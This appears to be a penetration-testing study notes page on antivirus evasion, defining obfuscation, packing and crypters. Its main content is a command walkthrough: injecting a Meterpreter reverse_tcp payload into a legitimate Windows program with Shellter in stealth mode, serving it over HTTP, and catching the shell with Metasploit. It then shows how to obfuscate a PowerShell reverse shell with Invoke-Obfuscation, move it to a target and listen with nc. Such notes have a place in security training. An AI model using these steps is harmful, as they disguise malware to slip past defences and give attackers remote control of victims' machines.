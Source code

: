```yaml
---
title: 'Obfuscation'
description: 'Evasion with Shellter, obfuscation PowerShell Code.'
pubDate: 'May 12 2023'
heroImage: '/asd.png'
slug: 'trip/obfuscation'
---
```


**_Obfuscation:_** Reorganizes code in order to make it harcer to analyze or RE.

**_Encoding:_** Is a process involving changing data into a new format using a scheme. Enconding is a reversible process; data can be encoded to a new format and decoded to its original format.

**_Packing:_** Generate executables with new binary structure with a smaller size and therefore provides the payload with a new signature.

**_Crypters:_** Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub.

```bash
apt install shellter -y

# Add 32 architecture
dpkg --add-architecture i386

apt install wine32

# Its gonna replace origin app thats why we create new one
# Create a copy of viewwer windows app

cd /usr/share/windows-resources/shellter/

wine shellter.exe
# select 1
# stealth mode? y
# select payload 5
# select port, host

# listening a server on pwd of app
python3 -m http.server 80

# METASPLOIT
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set PORT

# EXECUTE app on windows and get a reverse shell.
```

PowerShell Code Obfuscation.

```bash
# PayloadAllTheThings

git clone https://github.com/danielbohannon/Invoke-Obfuscation.git

# Example with this file
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation

# Copy a powershell reverse-shell from payloadallthethings

SET SCRIPTPATH /home/printer/pwsh.ps1
# obfuscation all the ast nodes
AST
ALL
1
# Transfer payload to target
# and set up a listener nc
```
